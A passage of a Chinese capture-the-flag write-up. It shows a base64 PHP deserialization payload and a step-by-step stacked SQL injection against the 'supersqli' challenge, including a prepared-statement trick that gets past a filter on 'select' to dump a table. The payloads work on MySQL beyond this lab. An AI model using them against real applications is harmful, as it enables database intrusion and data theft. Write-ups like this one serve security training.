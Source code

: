 TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==
构造
?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==

 


---


---


## 十、supersqli

> 

 

<h3>解题方法：</h3>
1、SQL注入（堆叠注入，预编译）


> 
<h3>过程</h3>
加上单引号有报错，说明存在注入点

 使用#注释，没有报错，说明为单引号闭合

<hr/>
判断字段数
1'order by 2#
回显正常

1'order by 3#
报错，说明字段数为2


<hr/>
爆库
1'union select  1,database()#
看见存在正则匹配

<hr/>
看来可以使用堆叠注入中的show来查看
1'; show databases; # 
查询数据库

<hr/>
查询表 
 1';use supersqli;show tables;#

<hr/>
查字段
1';use supersqli;show columns from `1919810931114514`;#   
纯数字字符串是表名的时候，需要加反引号`


<hr/>
爆数据
因为select被过滤，不能直接查询
考虑使用预编译
1';Set @sql = CONCAT('se','lect * from `1919810931114514`;');prepare stmt from @sql;EXECUTE stmt;#
或者
1';  Set @sql = CONCAT('sele','ct flag from `1919810931114514`;');  prepare stmt from @sql;  EXECUTE stmt;#<img alt="" height="593" src="https://img-blog.csdnimg.cn/e5c5ac51075c443cbfe3c7e10841c256.png" width="1200"/>
